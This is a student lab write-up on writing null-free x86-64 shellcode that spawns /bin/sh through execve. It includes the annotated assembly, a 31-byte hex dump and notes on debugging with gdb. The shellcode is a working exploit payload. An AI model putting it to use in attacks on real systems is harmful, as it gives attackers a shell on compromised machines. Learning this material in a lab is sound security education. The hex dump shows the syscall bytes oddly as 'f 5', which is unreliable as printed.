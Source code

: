 # Shell code

The goal of this lab was to learn how to write x86-64 bit program in assembly that can be loaded by a C program.

This shellcode will execute /bin/sh using exceve.
 
We also learned about gdb through using it to help debug our assembly program by seeing the content of the registers, the codes, the memory, and see the flow of the program. 

## Program
```
// Shellcode lab
// Author: Long Tran
.globl _start
.section .text
_start:
    // zero out rax
    xor %rax, %rax
    // push to have array of zeroes on the stack
    pushq %rax
    // %rsi and %rdx - set these to the address leading to an empty array of pointers.
    // we don't need a pointer to an empty string
    movq %rsp, %rsi
    movq %rsp, %rdx
    
    // %rdi - path
    // "/bin/sh 0x2F62696E2F7368
    // needs to change to little endianess
    movq $0x68732F6E69622F3b, %rbx 
    // retrieve 0x3b, put it in lower 8-bit of rax
    mov %bl, %al

    // push the string
    pushq %rbx
    // copy the stack pointer
    movq %rsp, %rdi
    // increase it by one to get past 0x3b
    inc %rdi

    syscall
```
### Explanation

To set up for the system call, we basically need the following:

1. Put 0x3b into %rax
2. Push 8 bytes of 0x0 onto the stack. 
3. Store the address of the memory of the pushed 0 in %rsi (argv) and %rdx (env). This will lead to an empty array of pointers. 
4. Push the string "/bin/sh" onto the stack.
5. Store the address of the string in %rdi. 
6. Call the system call with `syscall`

However, to remove the zero byte and reduce the size. I made some changes. A detailed instruction can be seen through the comments of the assembly code. 

### Report

My shell code is 31 bytes long. Here they are:

    48 31 c0 50 48 89 e6 48 89 e2 48 bb 3b 2f 62 69 6e 2f 73 68 88 d8 53 48 89 e7 48 ff c7 f 5

### Explanation for NULL bytes        

As can be seen from the hexdump, there is no 0 bytes in the code.
I made sure that there are no NULL bytes by adding a check in the shellcode_tester.c and check if there is a 0 byte read. If there is a 0 byte read, then the program exits.

I realized through adding and removing instructions that the zero bytes only come from the intermediate numbers (e.g: $0x3b) to fill up the 8 bytes.

Thus, to eliminate NULL bytes, I did 2 things: 
1. I xor 2 registers to get a value 0 without having to write $0x0. 
2. I combined both the string "/bin/sh" and the code system call code 0x3b into one number to remove the buffered 0x0 byte from the string. To get the code, I only simply need to get the lower 8 byte from the register. I then pushed the entire number and to get the address of the string "/bin/sh" only, I incremented the stack pointer by one to get pass 0x3b. 

I realized the problem I had last time in class, it was because after the string, there were no 0 to end the string.